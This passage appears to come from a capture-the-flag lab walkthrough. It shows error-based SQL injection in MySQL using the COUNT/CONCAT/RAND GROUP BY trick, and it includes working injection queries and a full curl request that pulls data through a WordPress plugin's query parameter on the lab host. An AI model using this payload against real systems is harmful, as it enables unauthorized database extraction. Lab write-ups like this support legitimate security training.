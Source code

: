 Let’s start with a simple query to run, `select user();`:

    
    
    mysql> select user();
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.01 sec)
    

The goal is to get `root@localhost` into an error message. I’ll add a `COUNT`
column and a `CONCAT` of the data I want to get plus the random 0 or 1:

    
    
    mysql> select COUNT(*),concat(user(), floor(rand()*2)) as a from wp_posts group by a;
    +----------+-----------------+
    | COUNT(*) | a               |
    +----------+-----------------+
    |       19 | root@localhost0 |
    |       23 | root@localhost1 |
    +----------+-----------------+
    2 rows in set (0.00 sec)
    
    mysql> select COUNT(*),concat(user(), floor(rand()*2)) as a from wp_posts group by a;
    ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key '<group_key>'
    

There’s an error message that contains the data I want to exfil, knowing that
the last character (0 or 1) is not part of the data.

I’ll try to pull some data. First, I’ll change that table to
`information_schema.columns`, as having a bunch more columns seems to make the
error come up more often. Now I’ll replace `user()` with a query. I’ll also
add in some tags that I could search on programmatically to extract the data.
Finally, I want to put it into the format that fits the injection I have.

    
    
    mysql> select id from wp_posts where post_name = 1 AND (select 1 from (select COUNT(*),concat((select mid(post_title,1,64) from wp_posts where id = 68), 0x3078646666647830, floor(rand()*2)) as a from information_schema.columns group by a) as x);
    ERROR 1062 (23000): Duplicate entry 'Passwords0xdffdx01' for key '<group_key>'
    

Now I can get that with `curl`:

    
    
    oxdf@parrot$ curl 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20AND%20(select%201%20from%20(select%20COUNT(*),concat((select%20mid(post_title,1,64)%20from%20wp_posts%20where%20id%20=%2068),%200x3078646666647830,%20floor(rand()*2))%20as%20a%20from%20information_schema.columns%20group%20by%20a)%20as%20x)'
    <br />
    <b>Warning</b>:  mysqli::query(): (23000/1062): Duplicate entry 'Passwords0xdffdx01' for key '&lt;group_key&gt;' in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>15</b><br />
    